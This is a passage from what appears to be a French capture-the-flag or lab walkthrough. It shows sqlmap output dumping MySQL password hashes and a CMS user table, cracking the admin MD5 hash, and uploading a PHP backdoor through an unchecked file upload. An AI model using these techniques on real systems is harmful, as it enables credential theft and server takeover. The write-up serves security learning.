 ```plain
current user:    'cms_user@%'
current database:    'cms'

[*] cms_user [1]:
    password hash: 2e0cfd856355b099
[*] root [2]:
    password hash: 6cbbdf9b35eb7db1
    password hash: NULL
```

L'option --dbs nous liste les bases de données existantes :  

```plain
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
```

Plus d'informations sur la base CMS avec *-D cms --tables* :  

```plain
Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+
```

Et enfin le dump de la table user (*-D cms -T user --dump*) :  

```plain
Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------+
| user_id | user_username | user_password                    |
+---------+---------------+----------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 |
+---------+---------------+----------------------------------+
```

Le hash MD5 ne fait pas long feu sur [MD5RDB](http://md5.noisette.ch/) (adminpass).  

L'exploration de la base *Roundcube* est en revanche moins intéressante. On s'en sort avec un utilisateur *john@localhost* dont l'ID est 1.  

Les mots de passe ne sont pas stockés en base, roundcube devant dialoguer directement avec l'IMAP, POP3 voir autre chose.  

Une fois connecté sur le CMS maison avec les identifiants *admin / adminpass*, on trouve vite fait bien fait un moyen d'uploader une backdoor PHP (dans *"New event"*).  

L'extension .php passe sans problème. On en profite pour uploader une backdoor plus évoluée.  
